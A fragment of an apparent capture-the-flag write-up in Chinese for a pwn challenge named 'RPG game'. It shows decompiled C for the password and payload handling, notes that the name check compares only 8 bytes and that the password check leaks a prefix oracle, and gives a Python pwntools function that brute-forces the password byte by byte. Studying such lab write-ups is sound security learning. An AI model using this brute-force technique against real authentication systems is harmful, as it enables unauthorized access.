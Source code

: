 ```c
      for (local_c = 0; local_c < local_1c; local_c = local_c + 1) {
        if (local_78_passwd[local_c] != local_38[local_c]) {
          puts("Wrong Password!");
          break;
        }
      }
      if (local_c == 0x10) {
        puts("Welcome to the RPG game!");
        puts("Please input the size of your payload:");
        puts(">");
        read(0,local_78_passwd,0x10);
        local_20 = FUN_00401140_atoi(local_78_passwd);
        if ((int)local_20 < 0x40) {
          memset(local_78_passwd,0,0x40);
          puts("Please input your payload:");
          puts(">");
          read(0,local_78_passwd,(ulong)local_20);
          puts("Bye!");
          return;
        }
        puts("Size too large!");
      }
      else {
        puts("Password Invalid!");
      }
    }
    puts("Welcome to the RPG game!");
    puts("Enjoy yourself!");
  }
  return;
}
```

主要漏洞如下：

- 登录名校验`strncmp`只比较前8个字节，但其实可以读入0x40个。
- 密码校验时，当读入的所有字符都校验通过，但长度小于16时，不会输出`Wrong Password`，但是会跳过后续payload流程。通过这种方式可以通过只试前缀的方式，爆破密码。

```py
def crack_byte(known_pass):
    for c in range(256):
        conn.sendafter(b">\n", b"designer".ljust(0x40, b"\x90"))
        conn.sendafter(b">\n", known_pass + p8(c))
        resp = conn.recv(2)
        if resp == b"We":
            # passed
            # print("passed")
            return p8(c)
        elif resp == b"Wr":
            pass
            # print("not passed")
        elif resp == b"Pa":
            # guessed correct
            return p8(c)
        else:
            raise ValueError(f"not recognized {resp}")

```
